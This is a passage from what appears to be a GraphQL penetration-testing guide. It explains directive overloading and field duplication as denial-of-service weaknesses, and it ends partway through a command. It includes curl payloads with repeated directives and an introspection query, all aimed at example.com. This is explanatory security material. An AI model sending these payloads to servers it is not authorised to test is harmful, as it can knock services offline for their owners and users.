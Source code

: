 **Directive Overloading** occurs when a GraphQL server permits queries with excessive, duplicated directives. This can overwhelm the server’s parser and executor, especially if the server repeatedly processes the same directive logic. Without proper validation or limits, an attacker can exploit this by crafting a query with numerous duplicate directives to trigger high computational or memory usage, leading to **Denial of Service (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```

Note that in the previous example `@aa` is a custom directive that **might not be declared**. A common directive that usually exists is **`@include`**:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```

You can also send an introspection query to discover all the declared directives:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```

And then **use some of the custom** ones.

### **Field Duplication Vulnerability**

**Field Duplication** is a vulnerability where a GraphQL server permits queries with the same field repeated excessively. This forces the server to resolve the field redundantly for every instance, consuming significant resources (CPU, memory, and database calls). An attacker can craft queries with hundreds or thousands of repeated fields, causing high load and potentially leading to a **Denial of Service (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
```